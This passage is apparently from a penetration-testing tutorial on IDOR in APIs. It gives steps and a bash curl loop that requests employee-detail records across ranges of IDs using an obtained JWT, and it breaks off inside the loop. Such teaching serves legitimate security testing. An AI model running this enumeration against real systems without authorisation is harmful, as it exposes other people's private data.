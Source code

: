 ### 5.2. Testing Endpoints with ID Parameter (IDOR Attempt)

This is where you test for Insecure Direct Object Reference (IDOR). The goal is to see if you can access data for an ID other than your own user's ID.

*   **Action (Using Swagger UI "Try it out" or `curl`/Postman):**
    1.  **Find your own user ID:** Sometimes an API endpoint like `/api/me` or `/api/users/current` will reveal your own user ID in the response after you log in. If not, you might have to guess or infer it if the application uses sequential IDs (e.g., if you were the 10th user to sign up, your ID might be 10).
    2.  **Test with your own ID:** Use an endpoint like `/api/users/{id}` with your own ID to confirm it works and to see the expected data structure.
    3.  **Test with other IDs:**
        *   Try small integer IDs: `1`, `2`, `3`, ...
        *   Try IDs near your own: if your ID is `123`, try `122`, `124`.
        *   Try IDs from a different range if you suspect multiple types of users.
*   **Code (Conceptual `curl` for testing one endpoint with different IDs):**
    ```bash
    # Ensure SUBDOMAIN_OF_INTEREST, OBTAINED_JWT_TOKEN are set.
    # Assume the vulnerable endpoint is /api/employees/{id}/details
    # Assume your user ID is (e.g.) 50.

    TARGET_API_BASE_URL="https://${SUBDOMAIN_OF_INTEREST}:8443" # Or wherever the API is served from
    VULN_API_ENDPOINT_PATTERN="/api/employees/{ID_PLACEHOLDER}/details" # Path from Swagger

    # Test with your own ID first (e.g., if your ID is 50)
    # MY_ID=50
    # ID_TO_TEST=$MY_ID

    # Loop through a range of IDs to test for IDOR
    echo "[INFO] Testing for IDOR on endpoint pattern: ${VULN_API_ENDPOINT_PATTERN}"
    for id_to_test in {1..10} {45..55} {500..510}; do # Example ID ranges
        CURRENT_API_ENDPOINT="${VULN_API_ENDPOINT_PATTERN/\{ID_PLACEHOLDER\}/${id_to_test}}"
        FULL_API_URL="${TARGET_API_BASE_URL}${CURRENT_API_ENDPOINT}"

        echo "[TRYING IDOR] Testing ID: ${id_to_test} on URL: ${FULL_API_URL}"
        # -k for self-signed certs in lab
        # Assuming JWT is sent as a Bearer token in Authorization header
        response_json=$(curl -s -k -L -X GET "${FULL_API_URL}" \
             -H "Authorization: Bearer ${OBTAINED_JWT_TOKEN}" \
             -H "Content-Type: application/json")
